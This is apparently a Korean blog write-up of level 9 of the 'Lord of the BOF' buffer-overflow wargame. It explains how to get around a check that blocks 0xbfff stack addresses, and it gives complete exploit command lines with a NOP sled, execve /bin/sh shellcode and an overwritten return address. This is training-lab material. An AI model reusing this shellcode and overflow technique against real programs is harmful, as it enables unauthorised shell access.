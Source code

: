 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 9"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level9/1.jpg" | relative_url }}' alt='relative'>  

## 1) troll/aspirin 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level9/2.png" | relative_url }}' alt='relative'>  

``` c
// here is changed!
// check 0xbfff
if(argv[1][46] == '\xff')
{
        printf("but it's not forever\n");
        exit(0);
}
```

RET 주소에 0xbfffXXXX 주소를 입력할 수 없습니다.  
그러면 쉘코드를 0xbffeXXXX 주소에 입력하면 되지 않을까요?  

## 2) vampire 프로그램의 스택 구조 살펴보기  

<img data-action="zoom" src='{{ "assets/lob/level9/3.png" | relative_url }}' alt='relative'>  

``` bash
`python -c 'print "A"*47+"\xbf"'` `python -c 'print "\x90"*1000'`
```

위와 같이 argv[1]의 길이는 48 byte, argv[2]의 길이는 1000 byte로 줬을 때 0xbffff8cc 주소에 argv[2]가 위치하고 있습니다.  
그러면 argv[2]에 문자열을 아주 길게 입력하여 0xbffeXXXX 주소부터 시작하도록 만들어 보겠습니다.  

0xbffeXXXX 주소에 argv[2]의 문자열이 위치하도록 0xf8cd 길이 이상의 문자열을 입력해야 합니다.  

## 3) 공격 페이로드 만들기  

25 byte 쉘코드를 포함한 0x14806(83,974) byte의 문자열을 만들었습니다.  

``` bash
`python -c 'print "A"*47+"\xbf"'` `python -c 'print "\x90"*10000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*63924'`
```

<img data-action="zoom" src='{{ "assets/lob/level9/4.png" | relative_url }}' alt='relative'>  

argv[2]가 위치하는 주소가 0xbffedbe8 입니다. RET에 입력할 주소를 임의로 0xbffefe2c로 지정하겠습니다.  

``` bash
./vampire `python -c 'print "A"*44+"\x2c\xfe\xfe\xbf"'` `python -c 'print "\x90"*10000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*63924'`
```

<img data-action="zoom" src='{{ "assets/lob/level9/5.png" | relative_url }}' alt='relative'>  